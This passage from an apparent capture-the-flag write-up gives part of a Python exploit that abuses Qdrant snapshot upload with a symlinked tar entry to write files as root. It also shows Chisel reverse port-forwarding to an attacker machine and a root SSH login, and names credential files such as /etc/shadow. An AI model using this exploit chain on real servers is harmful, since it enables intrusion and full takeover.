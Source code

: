 ```bash

            info = tarfile.TarInfo(f"0/segments/redirect")
            info.type = tarfile.SYMTYPE
            info.linkname = str(remote_path.parent)
            tar.addfile(info)

        rsp = s.post(f"{args.url}/collections/{cname}/snapshots/upload", files={
            "snapshot" : ("x.snapshot", snapshot.getvalue(), "application/tar")
        })

        rsp = s.delete(f"{args.url}/collections/{cname}/snapshots/{sname}")
        rsp = s.delete(f"{args.url}/collections/{cname}")
        rsp = s.delete(f"{args.url}/collections/{cname}/snapshots/x.snapshot")

```
Now, the problem with this script is that requires some libraries that are not available on the target machine, to bypass this we can use [Chisel](https://shuciran.github.io/posts/Chisel/) to forward the port TCP-6333 to our attacker machine:

Chisel as Server:
```bash
./chisel server --port 1337 --reverse
```

Chisel as client:
```bash
./chisel client 10.10.5.122:1337 R:6333:localhost:6333
```
That way, the port is reachable on our `localhost` port 6333 so we can execute the payload locally:
```bash
python3 exploitqdrantwrite.py
```
There is no output upon execution, but if you try to login using your private key, you'll have access as root:
```bash
ssh -i id_rsa root@10.0.160.225
root@flatscape:~# ls
ETSCTF_<REDACTED>
```

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`

### Credentials

### Notes

- Sometimes, several exploits are public for a given software, that's why is important to first identify the version to speed up the exploitation process.
